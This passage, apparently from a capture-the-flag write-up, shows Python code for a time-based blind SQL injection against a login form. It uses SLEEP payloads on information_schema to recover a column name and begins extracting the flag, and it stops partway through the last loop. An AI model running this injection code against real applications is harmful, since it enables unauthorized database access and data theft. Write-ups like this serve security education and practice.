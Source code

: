 ![Num_Columns](https://user-images.githubusercontent.com/66698256/230971008-7dfaca68-9ae4-4d77-91ec-1f273bb6c49f.png)


There are two columns. Now we'll find the length of the second column name and second column name (because the flag is in the second column). Let's add the following code to the ones above:
```python
len_column2_name=1
while True:
        sql_injection="' OR 1=IF((SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='"+table1_name+"' LIMIT 1,1)="+str(len_column2_name)+", SLEEP(5), 1)#"
        print ("[+]Try: "+sql_injection)
        try:
            response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'},timeout=3)    #Random Password
        except:
            break
        len_column2_name=len_column2_name+1
print ("[Found]The length of the second column name of the '"+table1_name+"' table is: "+str(len_column2_name))

i=0
column2_name=""
while i<len_column2_name:
    for name_char in chars:
        sql_injection="' OR 1=IF((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='"+table1_name+"' LIMIT 1,1) LIKE '"+str(column2_name+name_char)+"%', SLEEP(5), 1)#"
        print ("[+]Try: "+sql_injection)
        try:
            response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'},timeout=3)  #Random Password
        except:
            column2_name+=name_char
            break
    i=i+1
print ("[Found]The name of the second column of the '"+table1_name+"' table is: "+column2_name) #Column's name: 'value'
```

Let's run it:

![Len_SecCol_Name](https://user-images.githubusercontent.com/66698256/230970635-a257a711-d7f0-46da-93ff-c40a3f7018f1.png)

![SecCol_Name](https://user-images.githubusercontent.com/66698256/230970646-873ddc78-2ab1-47af-9ff4-c8a6f0159d29.png)


The second column name is "value". Now let's find the flag length and the flag itself. Let's add the following code to the ones above:
```python
len_flag=1
while True:
        sql_injection="' OR 1=IF((SELECT LENGTH("+column2_name+") FROM "+table1_name+" LIMIT 0,1)="+str(len_flag)+", SLEEP(10), 1)#"
        print ("[+]Try: "+sql_injection)
        try:
            response=requests.post(urlname,data={'userName':sql_injection,'password':'abcdefg'},timeout=5)    #Random Password
        except:
            break
        len_flag=len_flag+1
print ("[Found]The length of the flag is: "+str(len_flag))

i=0
flag_name=""
```